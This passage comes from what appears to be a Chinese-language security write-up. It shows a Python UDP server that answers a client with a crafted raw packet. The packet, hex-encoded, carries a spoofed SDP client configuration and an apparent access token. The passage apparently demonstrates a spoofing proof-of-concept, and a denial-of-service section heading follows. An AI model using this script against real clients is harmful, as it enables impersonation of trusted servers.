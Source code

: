 ```
                "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    #################################################################################
    udpServerSocket.sendto(content, addr)
    print('...received from and returned to:', addr)
 
    print("waiting for message...")
    data, addr = udpServerSocket.recvfrom(BUFSIZ)
    print("接收到数据：2222")
    content1 = "\x00\x0c\x29\xb0\x3a\x07\x84\x65\x69\x6e\xda\x22\x08\x00\x45\x00" \
"\x02\x0c\xe1\xde\x40\x00\x3f\x11\xc3\xf1\xc0\xa8\x0a\x16\xc0\xa8" \
"\x08\xaa\x11\x4e\xe3\x54\x01\xf8\xa6\x1e\x68\x00\x00\x00\x01\xf0" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x51\x0a\x00\x02\x01\xb4\x7b\x22" \
"\x73\x74\x61\x74\x75\x73\x22\x3a\x31\x30\x30\x30\x2c\x22\x72\x65" \
"\x73\x70\x6f\x6e\x73\x65\x5f\x62\x6f\x64\x79\x22\x3a\x7b\x22\x73" \
"\x64\x70\x5f\x63\x6c\x69\x65\x6e\x74\x5f\x63\x6f\x6e\x66\x22\x3a" \
"\x7b\x22\x61\x6c\x6c\x6f\x77\x65\x64\x69\x70\x73\x22\x3a\x5b\x22" \
"\x31\x30\x2e\x30\x2e\x30\x2e\x31\x2f\x33\x32\x22\x2c\x22\x31\x39" \
"\x32\x2e\x31\x36\x38\x2e\x31\x30\x2e\x30\x2f\x31\x36\x22\x2c\x22" \
"\x31\x37\x32\x2e\x31\x36\x2e\x30\x2e\x30\x2f\x31\x36\x22\x5d\x2c" \
"\x22\x70\x6f\x72\x74\x61\x6c\x75\x72\x69\x22\x3a\x22\x68\x74\x74" \
"\x70\x3a\x2f\x2f\x31\x30\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x30" \
"\x30\x30\x2f\x6c\x6f\x67\x69\x6e\x2e\x68\x74\x6d\x6c\x22\x2c\x22" \
"\x72\x69\x73\x6b\x75\x72\x69\x22\x3a\x22\x68\x74\x74\x70\x3a\x2f" \
"\x2f\x31\x30\x2e\x30\x2e\x30\x2e\x31\x3a\x38\x31\x30\x30\x2f\x61" \
"\x75\x74\x68\x6e\x2f\x6d\x61\x70\x69\x2f\x30\x31\x2f\x73\x70\x61" \
"\x2f\x72\x69\x73\x6b\x22\x2c\x22\x64\x6e\x73\x22\x3a\x22\x31\x30" \
"\x2e\x30\x2e\x30\x2e\x31\x22\x7d\x2c\x22\x74\x6f\x6b\x65\x6e\x22" \
"\x3a\x22\x45\x43\x31\x44\x44\x42\x32\x39\x37\x32\x32\x38\x35\x43" \
"\x38\x31\x31\x39\x39\x33\x43\x36\x41\x33\x45\x32\x31\x44\x37\x45" \
"\x37\x31\x6c\x50\x50\x48\x6c\x50\x63\x52\x74\x5a\x74\x64\x6a\x32" \
"\x65\x7a\x4c\x4a\x4e\x78\x4c\x6a\x4f\x36\x76\x76\x63\x31\x53\x65" \
"\x55\x63\x46\x55\x69\x6a\x52\x5a\x37\x66\x2f\x4a\x49\x50\x37\x46" \
"\x51\x67\x2f\x4a\x47\x4b\x70\x6a\x70\x34\x50\x31\x6c\x42\x62\x75" \
"\x6b\x36\x50\x35\x7a\x53\x5a\x69\x37\x6f\x59\x7a\x58\x6a\x6d\x67" \
"\x4e\x69\x41\x44\x66\x2f\x37\x44\x74\x55\x78\x59\x52\x6e\x52\x69" \
"\x6d\x56\x6a\x7a\x43\x47\x74\x78\x4c\x43\x4d\x54\x6f\x3d\x2d\x31" \
"\x30\x30\x31\x45\x49\x74\x50\x6c\x48\x6d\x76\x67\x4c\x4e\x37\x5a" \
"\x55\x68\x79\x75\x47\x4d\x6f\x36\x62\x33\x68\x4e\x2f\x6c\x4b\x36" \
"\x6f\x7a\x44\x4e\x30\x38\x73\x69\x56\x79\x2f\x66\x6e\x45\x3d\x22" \
"\x7d\x7d\x00\x03\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" \
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
 
    udpServerSocket.sendto(content1, addr)
    print('...received from and returned to:', addr)
 
udpServerSocket.close()
```  
  
## 2.拒绝服务  
  